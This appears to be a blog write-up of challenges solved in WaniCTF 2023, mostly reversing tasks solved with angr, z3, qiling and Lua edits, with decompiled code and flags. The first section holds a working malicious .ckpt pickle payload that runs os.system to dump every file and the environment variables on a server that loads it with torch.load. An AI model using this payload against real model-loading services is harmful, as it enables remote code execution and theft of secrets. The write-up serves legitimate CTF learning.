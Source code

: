```yaml
---
author: "rand0m"
title: "WaniCTF 2023 Writeup"
date: "2023-05-05"
description: "Write up for challenges I solved (mostly rev) in WaniCTF 2023."
tags: [ "CTF", "Writeup", "reversing", "angr", "z3", "qiling", "ckpt", "wasm"]
categories: ["CTF", "Writeup", "Reversing"]
draft: false
---
```


Write up for challenges I solved (mostly rev) in WaniCTF 2023.

<!--more-->

DCDC scored 6th place out of 840 teams (which scored at least one point).
> WaniCTF is a CTF event organized by Wani Hackase, the Osaka University CTF club, aimed at beginners to intermediate level participants.


## [Misc] machine_loading (31 solved)
> 機械学習モデルを試すことができるサイトを作っています。
> まだ未完成ですが、モデルをロードする部分は先に作成しました。
> モデルの形式は、みんなよく使っている.ckptにします！  
> I'm creating a website where users can test machine learning models.
> It's not completed yet, but I've already created the part that loads a model.
> The format of the model will be .ckpt, which we all use a lot!  
> <https://machine-mis.wanictf.org>

<details>
<summary>Analysis</summary> 

- A website where we can upload a ckpt file
- Ckpt file is loaded by `torch.load` in python
- This is vulnerable to arbitrary code execution

</details>

<details>
<summary>Solution</summary>


```python
import tempfile
import requests
import torch
import os

def create_model():
    class Model:
        def __init__(self):
            pass
          
        def __reduce__(self):

            commands = ['mkdir output_dir',
                        'for f in *; do echo "cat $f;"; cat $f >> output_dir/output.txt; done',
                        'echo "\n\nenv:`env`" >> output_dir/output.txt',
                        'find . -type f -exec sh -c \'echo "{}, "`cat "{}"|base64`\' \\;>> output_dir/output.txt',
                        ]  
            commands = ';'.join(commands)
            return (os.system, (commands,))

    return Model()


with tempfile.NamedTemporaryFile() as tmp:
    filename = tmp.name + '.ckpt'
    torch.save(create_model(), filename)

def upload_file(filename, endpoint_url):
    session = requests.Session()

    # open the generated file and create a multipart-encoded file object
    with open(filename, "rb") as file:
        file_payload = {"file": (filename, file)}
        upload_response = session.post(endpoint_url, files=file_payload)

    return upload_response

res = upload_file(filename, 'https://machine-mis.wanictf.org/upload')
print(res.text)
```

</details>

Flag: `FLAG{Use_0ther_extens10n_such_as_safetensors}`

## [Reversing] theseus (136 solved)



> FLAGと同じ文字列を打ち込むと`Correct!`と表示されます。
> 
> Input the same strings as FLAG and you'll get the 'Correct!'.


[rev-theseus.zip](./rev-theseus.zip)

<details>
<summary>Analysis</summary> 


```cpp
_BOOL8 __fastcall compare(char a1, int a2) {
    char v3[40]; // [rsp+10h] [rbp-30h] BYREF
    unsigned __int64 v4; // [rsp+38h] [rbp-8h]

    v4 = __readfsqword(0x28u);
    strcpy(v3, "FLAGmlEAfh.i`,f_N)r?W^c$kx");
    return a1 == v3[a2];
}

int __cdecl main(int argc, const char **argv, const char **envp) {
    char v3; // dl
    __int64 v4; // rcx
    int v6; // [rsp+0h] [rbp-60h]
    int i; // [rsp+4h] [rbp-5Ch]
    int j; // [rsp+8h] [rbp-58h]
    int v9; // [rsp+Ch] [rbp-54h]
    char v10[56]; // [rsp+20h] [rbp-40h] BYREF
    unsigned __int64 v11; // [rsp+58h] [rbp-8h]

    v11 = __readfsqword(0x28u);
    v9 = getpagesize();
    mprotect((-v9 & compare), v9, 7);
    printf("Input flag: ");
    __isoc99_scanf("%s", v10);
    LOBYTE(v6) = 0;
    for ( i = 0; i <= 25; ++i ) {
    if ( i > 3 )
        v6 = 11 * i % 15;
    if ( i > 7 ) {
        if ( i > 15 ) {
        if ( i > 23 ) {
            v3 = *(compare + i + 57);
            v4 = i + 57;
        }
        else {
            v3 = *(compare + i + 49);
            v4 = i + 49;
        }
        *(compare + v4) = v6 + v3;
        }
        else {
        *(compare + i + 39) += v6;
        }
    }
    else {
        *(compare + i + 37) += v6;
    }
    }
    for ( j = 0; j <= 25; ++j ) {
    if ( !compare(v10[j], j) ) {
        puts("Incorrect.");
        return 1;
    }
    }
    puts("Correct!");
    return 0;
}
```


</details>

<details>
<summary>Solution</summary>



```cpp
import angr

file_name = '/chall'
proj = angr.Project(file_name, auto_load_libs=False)
state = None 
simgr = proj.factory.simgr(state)

target_addr = lambda s: b"Correct!" in s.posix.dumps(1)
avoid_addr = lambda s: b"Incorrect." in s.posix.dumps(1)

simgr.explore(find=target_addr, avoid=avoid_addr)
if len(simgr.found) > 0:
    solution_state = simgr.found[0]
    print(repr(solution_state.posix.dumps(0)))
    print(solution_state.posix.dumps(0).decode("utf-8", "ignore"))
else:
    print('not found')
```

Output

```python
b'FLAG{vKCsq3jl4j_Y0uMade1t}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
FLAG{vKCsq3jl4j_Y0uMade1t}����������������������������������
```
</details>

`FLAG{vKCsq3jl4j_Y0uMade1t}`

## [Reversing] web_assembly (77 solved)

> ブラウザ上でC++を動かすことに成功しました！！ 正しいユーザ名とパスワードを入力するとフラグがゲットできます。
> 
> I successfully ran C++ in the browser!! Enter the correct username and password to get the flag.
> 
> https://wasm-rev.wanictf.org
> 
> ---
> 注意: 作問におけるミスにより、フラグはFlag{から始まり}で終わります。ご迷惑をおかけして申し訳ありません。
> 
> Note: This flag starts `Flag{` and ends `}`. Sorry for the inconvenience.
> 

<details>
<summary>Analysis</summary> 

    
![Screenshot 2023-05-04 at 15.46.16.png](./Screenshot_2023-05-04_at_15.46.16.png)
    
</details>


`FLAG{Y0u_C4n_3x3cut3_Cpp_0n_Br0us3r!}`

## [Reversing] Lua (69 solved)

> るあ〜
> 
> Lua~~~
> 
> ---
> 
> 配布ファイルmain.luaのubuntuにおける実行方法
> How to run main.lua on ubuntu
> ```
> $ sudo apt update
> $ sudo apt install lua5.1
> $ lua main.lua
> Input FLAG : FAKE{FAKE_FLAG}
> Incorrect
> ```


[rev-lua.zip](./rev-lua.zip)

<details>
<summary>Analysis</summary> 

There is a base64 and RC4 related routine. 
    

</details>

<details>
<summary>Solution</summary>

Modify the given Lua code to dump the contents of `bm.env` before executing the instructions. We can achieve this by adding a few lines to the `bs` function:

```lua
local function bs(bm)
    -- Rest of the function definitions here
    -- ...

    -- Add the following lines to dump the environment (bm.env) to a file
    local file = io.open(output_file_name .. ".txt", "w")
    file:write("rand0m: bm.env\n")
    pretty_print_table_to_file(bm.env, file)
    file:close()
```

</details>

`FLAG{1ua_0r_py4h0n_wh4t_d0_y0u_3ay_w4en_43ked_wh1ch_0ne_1s_be44er}`


## [Reversing] javersing (348 solved)


> jarファイルの中身を覗いてみましょう！
> 
> Let's take a look at the contents of .jar file!


[rev-javersing.zip](./rev-javersing.zip)

I didn’t solve this during the contest, but I wrote a solve script anyways.


<details>
<summary>Analysis</summary> 

```java
package defpackage;

import java.util.Scanner;

/* renamed from: javersing  reason: default package */
/* loaded from: javersing.jar:javersing.class */
public class javersing {
    public static void main(String[] strArr) {
        boolean z = true;
        Scanner scanner = new Scanner(System.in);
        System.out.println("Input password: ");
        String replace = String.format("%30s", scanner.nextLine()).replace(" ", "0");
        for (int i = 0; i < 30; i++) {
            if (replace.charAt((i * 7) % 30) != "Fcn_yDlvaGpj_Logi}eias{iaeAm_s".charAt(i)) {
                z = false;
            }
        }
        if (z) {
            System.out.println("Correct!");
        } else {
            System.out.println("Incorrect...");
        }
    }
}
```
</details>

<details>
<summary>Solution</summary>

```python
from z3 import *

# Create a solver instance
solver = Solver()

# Create variables for each character in the password
password = [Int(f'password_{i}') for i in range(30)]

# Constrain password characters to printable ASCII range (32-126)
for i in range(30):
    solver.add(password[i] >= 32, password[i] <= 126)

# Add constraints based on the logic in the Java code
secret = "Fcn_yDlvaGpj_Logi}eias{iaeAm_s"
for i in range(30):
    solver.add(password[(i * 7) % 30] == ord(secret[i]))

# Check if a solution exists and print the solution if found
if solver.check() == sat:
    model = solver.model()
    solution = ''.join([chr(model[password[i]].as_long()) for i in range(30)])
    print(f"{solution = }")
else:
    print("No solution found.")
```
</details>
    

`FLAG{Decompiling_java_is_easy}`

## [Reversing] fermat (141 solved)

> Give me a counter-example


[rev-fermat.zip](./rev-fermat.zip)

<details>
<summary>Analysis</summary> 

```cpp
int __cdecl main(int argc, const char **argv, const char **envp) {
    unsigned int v4; // [rsp+Ch] [rbp-14h] BYREF
    unsigned int v5; // [rsp+10h] [rbp-10h] BYREF
    unsigned int v6; // [rsp+14h] [rbp-Ch] BYREF
    unsigned __int64 v7; // [rsp+18h] [rbp-8h]

    v7 = __readfsqword(0x28u);
    printf("Input a> ");
    __isoc99_scanf("%u", &v4);
    printf("Input b> ");
    __isoc99_scanf("%u", &v5);
    printf("Input c> ");
    __isoc99_scanf("%u", &v6);
    printf("(a, b, c) = (%u, %u, %u)\n", v4, v5, v6);
    if ( check(v4, v5, v6) )
    {
    puts("wow :o");
    print_flag();
    }
    else
    {
    puts("Invalid value :(");
    }
    return 0;
}
```

```cpp
unsigned __int64 print_flag() {
    int i; // [rsp+Ch] [rbp-B4h]
    int v2[20]; // [rsp+10h] [rbp-B0h]
    char s[8]; // [rsp+60h] [rbp-60h] BYREF
    __int64 v4; // [rsp+68h] [rbp-58h]
    __int64 v5; // [rsp+70h] [rbp-50h]
    __int64 v6; // [rsp+78h] [rbp-48h]
    __int64 v7; // [rsp+80h] [rbp-40h]
    __int64 v8; // [rsp+88h] [rbp-38h]
    __int64 v9; // [rsp+90h] [rbp-30h]
    __int64 v10; // [rsp+98h] [rbp-28h]
    __int64 v11; // [rsp+A0h] [rbp-20h]
    int v12; // [rsp+A8h] [rbp-18h]
    unsigned __int64 v13; // [rsp+B8h] [rbp-8h]

    v13 = __readfsqword(0x28u);
    v2[0] = -142476154;
    v2[1] = -978335301;
    v2[2] = -710549857;
    v2[3] = -274600028;
    v2[4] = -273358932;
    v2[5] = -996157777;
    v2[6] = -274342487;
    v2[7] = -274407775;
    v2[8] = -542714203;
    v2[9] = -996162382;
    v2[10] = -541855825;
    v2[11] = -274348372;
    v2[12] = -709438030;
    v2[13] = -559299662;
    v2[14] = -2131562585;
    v2[15] = -2013998344;
    v2[16] = -2030644062;
    v2[17] = -727481693;
    v2[18] = -1329541640;
    *(_QWORD *)s = 0LL;
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    v7 = 0LL;
    v8 = 0LL;
    v9 = 0LL;
    v10 = 0LL;
    v11 = 0LL;
    v12 = 0;
    for ( i = 0; i <= 18; ++i ) {
        s[4 * i] = v2[i] ^ 0xC0;
        s[4 * i + 1] = BYTE1(v2[i]) ^ 0xB0;
        s[4 * i + 2] = HIWORD(v2[i]) ^ 0xC0;
        s[4 * i + 3] = HIBYTE(v2[i]) ^ 0xB0;
    }
    puts(s);
    return __readfsqword(0x28u) ^ v13;
}
```

- `print_flag` is a state dependent function (doesn’t depend on any other variables)

So, we can just call `print_flag` function and get the flag!

Our options are, 

- patch the binary
- use angr to path find
- just call the `print_flag` using qiling

Let’s use qiling just for fun!

```
> nm /content/fermat  | grep ' T '
00000000000011a9 T check
0000000000001588 T _fini
0000000000001580 T __libc_csu_fini
0000000000001510 T __libc_csu_init
0000000000001401 T main
0000000000001207 T print_flag
00000000000010c0 T _start
```
    

</details>

<details>
<summary>Solution</summary>

```python
from qiling import Qiling
from qiling.const import QL_VERBOSE

binary_path = "pathto/fermat"
# Set up the binary and root filesystem paths
rootfs_path = "pathto/rootfs/x8664_linux"

# Initialize Qiling with the binary and root filesystem
ql = Qiling([binary_path], rootfs_path)
X64BASE = int(ql.profile.get("OS64", "load_address"), 16)

def dump(ql, *args, **kw):
    ql.save(reg=False, cpu_context=True, snapshot="/tmp/snapshot.bin")
    ql.emu_stop()

ql.hook_address(dump, X64BASE + 0x1401)
ql.run()

start_of_print_flag = 0x1207
end_of_print_flag = 0x1400 

begin_point = X64BASE + start_of_print_flag
end_point = X64BASE + end_of_print_flag
ql.run(begin=begin_point, end=end_point)
```

Output 

```
[=] 	mmap(addr = 0x7fffb81c3000, length = 0x3ae0, prot = 0x3, flags = 0x32, fd = 0xffffffff, pgoffset = 0x0) = 0x7fffb81c3000
[=] 	close(fd = 0x3) = 0x0
[=] 	mmap(addr = 0x0, length = 0x2000, prot = 0x3, flags = 0x22, fd = 0xffffffff, pgoffset = 0x0) = 0x7fffb81c7000
[=] 	arch_prctl(code = 0x1002, addr = 0x7fffb81c7f00) = 0x0
[=] 	mprotect(start = 0x7fffb81bd000, mlen = 0x4000, prot = 0x1) = 0x0
[=] 	mprotect(start = 0x555555557000, mlen = 0x1000, prot = 0x1) = 0x0
[=] 	mprotect(start = 0x7ffff7ffc000, mlen = 0x1000, prot = 0x1) = 0x0
--------------------------------------------------------------------------------
main()
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
print_flag
--------------------------------------------------------------------------------
[=] 	fstat(fd = 0x1, buf_ptr = 0x80000000db50) = 0x0
[=] 	brk(inp = 0x0) = 0x55555555b000
[=] 	brk(inp = 0x55555557c000) = 0x55555557c000
FLAG{you_need_a_lot_of_time_and_effort_to_solve_reversing_208b47bd66c2cd8}
[=] 	write(fd = 0x1, buf = 0x55555555b260, count = 0x4b) = 0x4b
```
</details>

`FLAG{you_need_a_lot_of_time_and_effort_to_solve_reversing_208b47bd66c2cd8}`


## [Forensics] Apocalypse (113 solved)


> ファイルが切り取られてしまったみたいです。
> ※フラグ形式はFLAG{[0-9a-zA-Z_]+}です。
> 
> It looks like the file has been cut off.
> *The flag format is FLAG{[0-9a-zA-Z_]+}.


[for-Apocalypse.zip](./for-Apocalypse.zip)

I’ve used [https://fotoforensics.com](https://fotoforensics.com/analysis.php?id=c5ac6a80833988327d15c588af8b19584c502084.36410). 


`FLAG{Watch_out_4_2023_21036}`